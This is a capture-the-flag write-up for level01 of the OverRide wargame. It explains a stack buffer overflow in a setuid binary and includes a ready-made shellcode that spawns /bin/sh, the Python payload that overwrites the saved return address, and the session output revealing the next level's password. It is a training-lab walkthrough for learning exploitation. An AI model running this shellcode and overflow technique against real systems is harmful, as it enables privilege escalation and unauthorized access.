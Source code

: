 # Level1

## Solution

* There is one file in our home, ```level01```, belonging to ```level02``` user, with suid.
* Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

* For the sake of clarity, we won't display the very long disassembled code, but we will describe its behaviour:

	* ```main()``` allocates an on-stack buffer of ```0x40``` bytes
	* it then prompts the user for a username
	* the user input is stored in a global variable, ```a_user_name``` and its content is checked byt ```verify_user_name()``` : if the string is other than ```dat_wil```, ```main()``` returns
	* ```main()``` then prompts the user for a password
	* the user input, obtained with ```fget()``` with ```0x64``` possible bytes, is this time stored in the on-stack buffer
	* whatever is the return of ```verify_user_pass```, the function outputs ```nope, incorrect password...``` and returns


* What we did with all of that:

	* our goal was to use the buffer allocated in ```main()``` to write an address of a shellcode in place of the former ```eip``` address
	* indeed, the buffer size is ```0x40``` bytes while ```fgets``` accepts up to ```0x64``` bytes
	* to get the offset until the former ```eip```, we use a pattern in ```gdb peda```: the result is ```EIP+0 found at offset: 80```
	* we stored a shellcode in an environment variable:
	```sh
	```export SHELLCODE=`python -c "print('\x90' * 1024 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80')"`
	```
	* we got the address by executing env program (see the Ressources) 
	```
	level01@OverRide:/var/crash$ /var/crash/env SHELLCODE
	SHELLCODE: 0xffffd4a8
	```
	* we wrote the content of the tow user inputs in one single file:
	```sh
	python -c "print('dat_wil' + '0' * 248 + 'A' * 80 + 'a8d4ffff'.decode('hex'))" > /var/crash/lvl1
	```
	* then we can exploit the program:
	```
	level01@OverRide:~$ cat /var/crash/lvl1 - | ./level01
	********* ADMIN LOGIN PROMPT *********
	Enter Username: verifying username....

	Enter Password:
	nope, incorrect password...

	cd ../level02
	cat .pass
	PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
	```

